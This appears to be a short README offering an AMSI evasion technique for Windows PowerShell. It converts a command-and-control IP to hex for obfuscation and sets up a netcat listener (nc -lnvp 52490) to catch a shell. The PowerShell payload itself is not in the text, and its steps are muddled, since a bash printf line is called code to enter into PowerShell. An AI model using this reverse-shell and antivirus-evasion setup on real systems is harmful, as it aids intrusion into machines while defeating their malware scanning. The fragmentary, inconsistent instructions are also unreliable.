 # AMSI-Evasion

### First, let’s obfuscate our IP address to simple hex. My C2 Host IP is be 192.168.0.1 which stands for 192 = c0, 168=a8, 0=0, 1=1

```bash
printf "%x,%x,%x,%x\n" 192 168 0 1
```


<p align="center">
  <img src="/Screenshot/IP.png">
</p>

### Now, if you start a netcat listener on port 52490, and enter the above code into PowerShell, it evades AMSI.


```bash
nc -lnvp 52490
```

